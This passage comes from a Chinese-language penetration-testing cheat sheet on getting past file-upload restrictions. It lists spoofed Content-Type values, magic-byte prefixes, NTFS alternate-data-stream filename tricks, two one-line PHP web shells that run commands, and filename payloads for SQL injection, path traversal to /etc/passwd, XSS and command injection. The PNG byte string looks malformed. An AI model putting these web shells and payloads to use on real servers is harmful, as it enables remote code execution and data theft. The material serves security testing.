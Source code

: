 * 常见的图像内容类型：

    ```cs
    Content-Type: image/gif
    Content-Type: image/png
    Content-Type: image/jpeg
    ```

* 内容类型词表: [SecLists/web-all-content-types.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt)

    ```cs
    text/php
    text/x-php
    application/php
    application/x-php
    application/x-httpd-php
    application/x-httpd-php-source
    ```

* 设置两次 `Content-Type`，一次用于不允许的类型，另一次用于允许的类型。

[Magic Bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) - 有时应用程序会根据文件的前缀字节来识别文件类型。在文件中添加/替换它们可能会欺骗应用程序。

* PNG: `\x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[`
* JPG: `\xff\xd8\xff`
* GIF: `GIF87a` 或 `GIF8;`

**文件封装**:

在 Windows 上使用 NTFS 替代数据流（ADS）。
在这种情况下，在禁止的扩展名和允许的扩展名之间插入一个冒号字符":"。结果是在服务器上创建一个空文件（例如 "`file.asax:.jpg`"）。之后可以使用其他技术编辑此文件，例如使用其短文件名。也可以使用 "::$data" 模式创建非空文件。因此，在此模式后面添加一个点字符也可能有助于绕过进一步的限制（例如 "`file.asp::$data.`"）。

**其他技术**:

PHP Web Shell 不总是包含 `<?php` 标签，这里有一些替代方案：

* 使用 PHP 脚本标签 `<script language="php">`

    ```html
    <script language="php">system("id");</script>
    ```

* `<?= 是 PHP 中用于输出值的简写语法，等同于使用 `<?php echo`。

    ```php
    <?=`$_GET[0]`?>
    ```

### 文件名漏洞

有时漏洞不是上传本身，而是上传后的处理方式。您可能希望上传带有有效负载的文件名。

* 基于时间的 SQLi 有效负载: 例如 `poc.js'(select*from(select(sleep(20)))a)+'.extension`
* LFI/路径遍历有效负载: 例如 `image.png../../../../../../../etc/passwd`
* XSS 有效负载 例如 `'"><img src=x onerror=alert(document.domain)>.extension`
* 文件遍历 例如 `../../../tmp/lol.png`
* 命令注入 例如 `; sleep 10;`

